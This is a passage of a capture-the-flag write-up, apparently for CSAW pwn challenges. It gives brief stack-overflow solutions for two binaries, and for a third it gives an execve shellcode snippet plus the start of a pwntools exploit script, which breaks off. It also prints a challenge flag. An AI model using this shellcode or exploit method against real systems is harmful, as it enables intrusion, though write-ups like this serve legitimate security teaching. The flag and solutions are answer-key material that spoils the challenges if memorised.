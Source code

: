 All the quarters are actually tiled the same way, as `n - 1`, just turned differently. We just need to place a tile in the middle to connect them. In fact, it doesn't matter where the hole is in the board. We just need to separate the board into quarters and tile each quarter independently.

([Full Haxe script here](scripts/TakeL.hx))

`flag{m@n_that_was_sup3r_hard_i_sh0uld_have_just_taken_the_L}`

## 25 Pwn / bigboi ##

**Description**

> Only big boi pwners will get this one!
> 
> `nc pwn.chal.csaw.io 9000`

**Files provided**

 - [`boi`](files/boi)

**Solution** (by [Mem2019](https://github.com/Mem2019))

stack overflow to change the variable

## 50 Pwn / get it? ##

**Description**

> Do you get it?
> 
> `nc pwn.chal.csaw.io 9001`

**Files provided**

 - [`get_it`](files/get_it)

**Solution** (by [Mem2019](https://github.com/Mem2019))

stack overflow to change the return address to the shell function

## 100 Pwn / shell->code ##

**Description**

> Linked lists are great! They let you chain pieces of data together.
> 
> `nc pwn.chal.csaw.io 9005`

**Files provided**

 - [`shellpointcode`](files/shellpointcode)

**Solution** (by [Mem2019](https://github.com/Mem2019))
put `/bin/sh\x00` into node 1, and put shellcode 

```assembly
add esp,0x30
xor rdx,rdx
xor rsi,rsi
push SYS_execve
pop rax
syscall
```
```python
from pwn import *
g_local=True
context.log_level='debug'
if g_local:
	sh = process('./shellpointcode')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
```